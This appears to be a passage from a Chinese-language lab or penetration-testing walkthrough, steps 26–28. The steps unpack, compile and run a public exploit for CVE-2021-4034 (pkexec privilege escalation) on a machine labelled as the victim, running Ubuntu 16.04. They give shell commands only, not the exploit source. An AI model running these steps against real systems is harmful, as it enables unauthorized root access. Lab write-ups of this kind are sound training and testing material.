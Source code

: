 26.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

提取源文件。

```
cd /tmp
tar -xzvf CVE-2021–4034-source.gz
```

![](img/28ce88d5c79bbe5727eddec044570861.png)

27.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

编译漏洞。

```
cd /tmp/CVE-2021–4034
make
```

![](img/357b4a70d2630f6b1ad020e58a80a1a5.png)

28.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

执行漏洞利用。

```
cd /tmp/CVE-2021–4034
./cve-2021–4034
```
